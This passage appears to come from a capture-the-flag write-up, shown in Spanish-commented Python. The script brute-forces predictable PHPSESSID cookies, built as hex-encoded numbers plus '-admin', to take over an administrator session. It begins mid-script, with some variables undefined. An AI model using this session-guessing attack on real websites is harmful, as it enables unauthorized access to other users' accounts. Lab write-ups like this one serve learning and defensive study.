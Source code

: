 ```python
y = 0x0
z = 0x0

# Bucle para probar diferentes valores de PHPSESSID
while x <= 0xf:
    while y <= 0xf:
        while z <= 0xf:
            # Construir el valor de PHPSESSID
            phpsessid = ('3%s3%s3%s2d61646d696e' % 
                         (hex(x)[2:], hex(y)[2:], hex(z)[2:]))
            cookies['PHPSESSID'] = phpsessid
            print('Trying with: %s' % phpsessid)
            
            # Realizar la solicitud GET
            r = requests.get(target, auth=auth, params=params, cookies=cookies)
            
            # Verificar la respuesta
            if "You are logged in as a regular user." not in r.text:
                print(r.text)
                sys.exit(0)
            
            # Incrementar z
            z += 1
        
        # Incrementar y y reiniciar z
        y += 1
        z = 0x0
    
    # Incrementar x y reiniciar y y z
    x += 1
    y = 0x0
    z = 0x0

# Finalizar el script si no se encontró una sesión válida
sys.exit(1)
```

<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>
